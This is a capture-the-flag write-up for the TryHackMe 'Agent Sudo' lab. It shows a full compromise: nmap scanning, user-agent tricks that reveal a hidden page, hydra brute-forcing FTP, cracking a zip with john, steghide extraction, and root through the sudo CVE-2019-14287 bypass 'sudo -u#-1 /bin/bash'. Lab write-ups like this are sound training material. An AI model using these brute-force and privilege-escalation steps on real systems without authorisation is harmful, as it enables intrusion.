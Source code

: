 ```yaml
---
title: TryHackMe | Agent Sudo
author: Zeropio
date: 2022-09-29
categories: [Pentesting, TryHackMe]
tags: [thm, linux]
permalink: /pentesting/tryhackme/agent-sudo
---
```


# Foothold

The nmap show:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
```

We can see a difference in the page if we sent `R` as the **user-agent**:

```console
zero@pio$ curl 'http://10.10.191.204/'

	<!DocType html>
	<html>
	<head>
	        <title>Annoucement</title>
	</head>
	
	<body>
	<p>
	        Dear agents,
	        <br><br>
	        Use your own <b>codename</b> as user-agent to access the site.
	        <br><br>
	        From,<br>
	        Agent R
	</p>
	</body>
	</html>
```

```console
zero@pio$ curl 'http://10.10.191.204/' -A 'R'
	What are you doing! Are you one of the 25 employees? If not, I going to report this incident
	<!DocType html>
	<html>
	<head>
	        <title>Annoucement</title>
	</head>
	
	<body>
	<p>
	        Dear agents,
	        <br><br>
	        Use your own <b>codename</b> as user-agent to access the site.
	        <br><br>
	        From,<br>
	        Agent R
	</p>
	</body>
	</html>
```

Testing some **User-agent** we can see a redirection for `User-agent: C`:

```console
zero@pio$ curl -I 'http://10.10.191.204/' -H 'User-agent: C' 
	HTTP/1.1 302 Found
	Date: Thu, 29 Sep 2022 17:44:11 GMT
	Server: Apache/2.4.29 (Ubuntu)
	Location: agent_C_attention.php
	Content-Type: text/html; charset=UTF-8
```

Let’s follow  it:

```console
zero@pio$ curl -iL 'http://10.10.191.204/' -H 'User-agent: C' 
	HTTP/1.1 200 OK
	Date: Thu, 29 Sep 2022 17:44:51 GMT
	Server: Apache/2.4.29 (Ubuntu)
	Vary: Accept-Encoding
	Content-Length: 177
	Content-Type: text/html; charset=UTF-8
	
	Attention chris, <br><br>
	
	Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>
	
	From,<br>
	Agent R
```

---

# Fingerprint

Let’s try bruteforcing with this user the ftp:

```console
zero@pio$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.191.204

	[21][ftp] host: 10.10.191.204   login: chris   password: crystal
```

Inside the ftp we found three files, two images and a txt saying that there is a password inside of the images. We can see that one of them have a ZIP:

```console
zero@pio$ binwalk cutie.png 

	DECIMAL       HEXADECIMAL     DESCRIPTION
	--------------------------------------------------------------------------------
	0             0x0             PNG image, 528 x 528, 8-bit colormap, non-interlaced
	869           0x365           Zlib compressed data, best compression
	34562         0x8702          Zip archive data, encrypted compressed size: 98, uncompressed size: 86, name: To_agentR.txt
	34820         0x8804          End of Zip archive, footer length: 22

                                                                                                                                           
zero@pio$ binwalk cute-alien.jpg 

	DECIMAL       HEXADECIMAL     DESCRIPTION
	--------------------------------------------------------------------------------
	0             0x0             JPEG image data, JFIF standard 1.01
```

We can get the ZIP as:

```console
zero@pio$ binwalk cutie.png -e
zero@pio$ cd _cutie.png.extracted
zero@pio$ ll
	-rw-r--r-- 1 zeropio zeropio 279312 Sep 29 18:54 365
	-rw-r--r-- 1 zeropio zeropio  33973 Sep 29 18:54 365.zlib
	-rw-r--r-- 1 zeropio zeropio    280 Sep 29 18:54 8702.zip
	-rw-r--r-- 1 zeropio zeropio      0 Oct 29  2019 To_agentR.txt
```

Let’s try getting the ZIP password:

```console
zero@pio$ zip2john 8702.zip
zero@pio$ john hash --wordlist=/usr/share/wordlists/rockyou.txt

	alien            (8702.zip/To_agentR.txt)
```

Inside we found the file `To_agentR.txt`{: .filepath} with the contents:

```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

We can decode it:

```console
zero@pio$ echo "QXJlYTUx" | base64 -d
	Area51
```

We can use this password with `steghide`:

```console
zero@pio$ steghide extract -sf cute-alien.jpg 
	Enter passphrase: 
	wrote extracted data to "message.txt".
```

There we can found:

```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

We can now login as ssh.

---

# Privilege Escalation

We can see some weird privileges:

```console
zero@pio$ sudo -l
	Matching Defaults entries for james on agent-sudo:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
	User james may run the following commands on agent-sudo:
	    (ALL, !root) /bin/bash
```

We found this [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287). We can easily exploit it with:

```console
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# whoami
	root
```